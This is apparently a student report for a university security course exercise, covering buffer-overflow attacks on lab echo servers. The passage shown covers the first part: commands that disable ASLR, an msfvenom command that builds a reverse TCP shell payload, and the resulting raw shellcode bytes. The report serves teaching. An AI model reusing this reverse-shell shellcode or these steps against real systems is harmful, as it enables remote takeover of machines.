 Buffer Overflow Exercise Report
Introduction
This report documents the completion of Exercise 4 from the Networks and Systems Security 2 course (Winter 2025), focusing on two buffer overflow attacks:

Part 1: Basic buffer overflow attack on tcpserver-basic, a 64-bit networked echo server, to execute a reverse TCP shellcode.
Part 2: Return-Oriented Programming (ROP) buffer overflow attack on tcpserver-nonexecstack, a 64-bit non-networked echo server with a non-executable stack, to execute system("/bin/sh") using Ret2Libc.

The setup uses Fedora for running the target programs and exploits, and Kali Linux for generating shellcode and patterns with Metasploit tools. The report includes all commands, errors encountered, resolutions, and deliverables (shellcode, scripts, and write-ups).
Part 1: Basic Buffer Overflow on tcpserver-basic
Objective
Exploit a buffer overflow vulnerability in tcpserver-basic, a 64-bit echo server listening on port 40000, to execute a reverse TCP shellcode and gain a shell on the attacker's machine (Fedora).
Setup

Disable ASLR:
sudo sh -c 'echo 0 > /proc/sys/kernel/randomize_va_space'
cat /proc/sys/kernel/randomize_va_space


Output: 0 (ASLR disabled).
Purpose: Ensures predictable stack addresses for shellcode execution.


Verify Binary:
file tcpserver-basic


Output: ELF 64-bit LSB pie executable, x86-64, dynamically linked, ...
Purpose: Confirms tcpserver-basic is a 64-bit executable, requiring 64-bit shellcode and RIP manipulation.



Steps
1. Generate Reverse TCP Shellcode (On Kali)
Create a 64-bit reverse TCP shellcode to connect back to Fedora.
Command:
msfvenom -p linux/x64/shell_reverse_tcp LHOST=127.0.0.1 LPORT=4444 -f python -o shellcode.py
scp shellcode.py techn@<FEDORA_IP>:/home/techn/

Details:

Payload: linux/x64/shell_reverse_tcp (64-bit reverse shell).
LHOST: 127.0.0.1 for local testing (replace with Fedora’s IP for remote setups).
Output Format: Python code for easy integration into the exploit script.
Example Shellcode (in shellcode.py):shellcode = b"\x6a\x29\x58\x99\x6a\x02\x5f\x6a\x01\x5e\x0f\x05\x48\x97" + \
b"\x48\xb9\x02\x00\x11\x5c\x7f\x00\x00\x01\x51\x48\x89\xe6" + \
b"\x6a\x10\x5a\x6a\x2a\x58\x0f\x05\x6a\x03\x5e\x48\xff\xce" + \
b"\x6a\x21\x58\x0f\x05\x75\xf6\x6a\x3b\x58\x99\x48\xbb\x2f" + \
b"\x62\x69\x6e\x2f\x73\x68\x00\x53\x48\x89\xe7\x48\x89\xfe" + \
b"\x48\x89\xd6\x0f\x05"
